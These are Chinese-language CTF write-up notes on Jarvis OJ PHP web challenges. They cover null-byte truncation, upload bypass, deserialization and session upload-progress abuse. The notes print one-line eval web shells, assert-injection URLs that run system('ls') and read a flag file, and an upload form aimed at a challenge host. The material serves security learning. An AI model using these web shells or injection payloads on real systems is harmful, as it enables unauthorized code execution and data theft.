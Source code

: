 ### %00 截断问题

http://web.jarvisoj.com:32785/

?page=xxxx

?page=xxxx%00 就可以截断

首先是把php上传（改文件名、改Content-Type，改文件内容，图片马），然后是如何解析并执行php（web容器的解析漏洞、php文件包含）。

    <?php @eval($_POST['pwd']);?>
    <script language="php">@eval_r($_POST['pwd'])</script>
### 序列化 Serilaze

    <?php
        class Shield {...}

        $shield = new Shield('pctf.php');
        echo serialize($shield);
    ?>
### assert 执行


注意到 assert("strpos('$file', '..') === false") or die("Detected hacking attempt!") 这句话，查了一下 strpos，感觉可以拼接一下，但是自己不熟悉 PHP，只能去看题解。

可以执行任何 PHP 命令

构造 $file='.system('ls').'，意思就是用 . 来拼接 system 的返回结果

http://web.jarvisoj.com:32798/?page='.system('ls').'

http://web.jarvisoj.com:32798/?page='.system('cat templates/flag.php').'

看源码显示的flag。

### phpinfo 审计代码反序列化

问题在

    ini_set('session.serialize_handler', 'php');#ini_set设置指定配置选项的值。这个选项会在脚本运行时保持新的值，并在脚本结束时恢复。

`session.serialize_handler` 容易想到wooyun上的文章《PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患》。通过phpinfo页面，我们知道php.ini中默认session.serialize_handler为php_serialize，而index.php中将其设置为php。这就导致了session的反序列化问题。

<div style="color:red">php大于5.5.4的版本中默认使用php_serialize规则</div>

由phpinfo()页面继续可知，session.upload_progress.enabled为On。

当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据。所以可以通过Session Upload Progress来设置session。

但是，这时就有一个问题，在题目代码中，没有某个值是用来接受我们传入的数据，并储存到$_SESSION中的。

其实我们是有办法传入$_SESSION数据的，这里就利用到了|的反序列化问题

思路很明显了，我们需要构造一个上传和post同时进行的情况，代码如下:

    <!DOCTYPE html>
    <html>
    <head>
        <title>test XXE</title>
        <meta charset="utf-8">
    </head>
    <body>
        <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data"><!--     
    不对字符编码-->
            <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
            <input type="file" name="file" />
            <input type="submit" value="go" />
        </form>
